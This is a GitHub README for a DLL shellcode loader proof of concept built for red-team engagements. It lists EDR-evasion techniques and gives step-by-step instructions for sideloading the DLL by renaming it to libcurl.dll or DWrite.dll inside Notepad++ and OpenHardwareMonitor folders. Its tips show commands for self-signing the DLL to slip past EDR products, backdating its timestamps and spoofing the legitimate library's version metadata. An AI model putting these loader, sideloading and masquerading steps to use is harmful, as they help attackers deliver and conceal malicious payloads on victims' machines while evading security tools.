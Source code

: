 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Follow @JimKwik_X](https://img.shields.io/twitter/follow/JimKwik_X?style=social)](https://x.com/JimKwik_X)

# A DLL Shellcode Loader POC

![image](Images/loader.png)

# Techniques used:
- NTDLL.dll unhooking
- Indirect Syscalls
- Rop Gadgets 
- Anti analysis by self deleting after execution
- [Threadless injection](https://github.com/CCob/ThreadlessInject) with  with HWBP
- Remote payload download over HTTPs with a customed header for authtication
- VEH unhooking
- DLL sideload
- Payload AES encryption on the fly 

Compile in Visual Studio -> `x64` -> `Release`

# Usage:

# **Run by Rundll32.exe**

Add `#Define badger` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L199)

then run by
```js
rundll32.exe Dllloader.dll,run
```

# **Sideload [Notepad++](https://notepad-plus-plus.org/)**

1. Add `#Define NOTEPAD` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L212)

2. Rename `Dllloader.dll` to `libcurl.dll` and place it in [updater](./updater/) folder

3. Run `updater.exe` in the update folder to sideload the dll

# **Sideload [OpenHardwareMonitor](https://openhardwaremonitor.org/)**

1. Add `#Define MONITOR` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L169)


2. Rename `Dllloader.dll` to `DWrite.dll` and place it in [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder

3. Run `OpenHardwareMonitor.exe` in the update folder to sideload the dll



# 💡Tips:

- Use signtool to sign a ceritifcate on the DLL some EDRs flag unsigned dlls straightaway such as Elastic and change the date similar to the orginal 

![elastic](./Images/Elastic.png)

- **Signtool Powershell commands**

```js
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365

openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx

signtool sign /f sign.pfx /p password /t http://timestamp.digicert.com /fd sha256 DWrite.dll

```
- **Changing dates**

```js
$x = "DWrite.dll"
$(Get-Item $x).creationtime=$(Get-Date "03/3/2024")
$(Get-Item $x).lastwritetime=$(Get-Date "03/3/2022")
$(Get-Item $x).lastaccesstime=$(Get-Date "07/23/2024")
```

- **Add metadata to the DLL and do not leave it blank**#


Add a `Resource.rc` file in Visual Studio and the following metadata for `DWrite.dll` so it looks like this

![DWrite](./Images/Dwritre.png)

```js
1 VERSIONINFO
 FILEVERSION 9.6.0.0 // File version separated by commas
 PRODUCTVERSION 0.9.6.0
 FILEFLAGSMASK 0x0L
#ifdef _DEBUG
 FILEFLAGS 0x1L
#else
 FILEFLAGS 0x0L
#endif
 FILEOS 0x0L
 FILETYPE 0x0L
 FILESUBTYPE 0x0L
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN 
            // Modify the values below
            VALUE "CompanyName", "(C) 2009-2020 Michael Möller"
            VALUE "FileDescription", "Open Hardware Monitor Library"
            VALUE "InternalName", "Chrome"
            VALUE "LegalCopyright", "(C) 2009-2020 Michael Möller"
            VALUE "OriginalFilename", "OpenHardwareMonitorLib.dll"
            VALUE "ProductName", "Open Hardware Monitor Library"
            VALUE "ProductVersion", "0.9.6"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```


# ⚠️ Disclaimer: 
Always tweak the code during an enagament, this is just a POC but its not good to add everything in one loader. Its better to use stagers to prevent the main C2 shellcode gets burnt. 

# Video Demo

Click [here](https://drive.google.com/file/d/1LenFbhhj8n7esZXn6NXPdZ-pDy8bTdjx/view) to see the full demo.
